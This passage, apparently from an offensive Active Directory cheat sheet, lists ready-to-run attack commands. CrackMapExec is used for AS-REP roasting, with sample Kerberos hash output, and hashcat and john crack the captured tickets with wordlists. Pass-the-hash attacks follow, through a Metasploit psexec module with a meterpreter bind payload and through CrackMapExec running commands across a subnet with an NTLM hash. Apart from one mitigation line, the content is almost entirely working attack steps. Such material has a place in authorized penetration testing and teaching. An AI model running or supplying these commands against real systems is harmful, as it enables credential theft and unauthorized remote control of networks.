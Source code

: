 - CrackMapExec Module
    
    ```powershell
    $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
    LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
    ```
    

Using `hashcat` or `john` to crack the ticket.

```powershell
# crack AS_REP messages with hashcat
root@kali:impacket-examples$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
root@windows:hashcat$ hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john
C:\Rubeus> john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**:

- All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).

## Pass-the-Hash

The types of hashes you can use with Pass-The-Hash are NT or NTLM hashes. Since Windows Vista, attackers have been unable to pass-the-hash to local admin accounts that weren’t the built-in RID 500.

- Metasploit
    
    ```powershell
    use exploit/windows/smb/psexec
    set RHOST 10.2.0.3
    set SMBUser jarrieta
    set SMBPass nastyCutt3r  
    # NOTE1: The password can be replaced by a hash to execute a `pass the hash` attack.
    # NOTE2: Require the full NT hash, you may need to add the "blank" LM (aad3b435b51404eeaad3b435b51404ee)
    set PAYLOAD windows/meterpreter/bind_tcp
    run
    shell
    ```
    
- CrackMapExec
    
    ```powershell
    cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
    ```
    